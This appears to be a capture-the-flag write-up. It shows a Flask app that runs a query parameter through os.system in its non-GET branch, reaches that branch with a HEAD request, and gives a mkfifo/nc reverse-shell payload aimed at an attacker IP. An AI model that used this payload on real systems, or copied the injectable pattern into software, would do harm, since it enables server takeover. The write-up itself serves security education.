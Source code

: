 We were given the source code for the web
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
    else:
        os.system(c)
    return c

app.run(host='0.0.0.0', port=1337)
```
This Flask application has a potential security vulnerability because it allows arbitrary command execution through the ```os.system(c)``` line when the else branch is triggered. 
The input ```url/?c=``` comes directly from the query string, which means that an attacker could inject any command via the URL and execute it on the server.

But in the initial state the web uses a GET method as the request and looking at the source code
```python
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
``` 
if the method being use is a GET result we really get that's why w now look a the ```else``` condition
```python
 else:
        os.system(c)
    return c
```
so if we make use of another request method like HEAD, which is a request method that was allowed, we will be able to get the vulnerability. which is command injection

so the payload used was  ```url/?c=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker IP> <port> >/tmp/f` ``` this payload was used beacuse it was a blind command injection
.
This we get us a reverse shell and we can get the flag
      
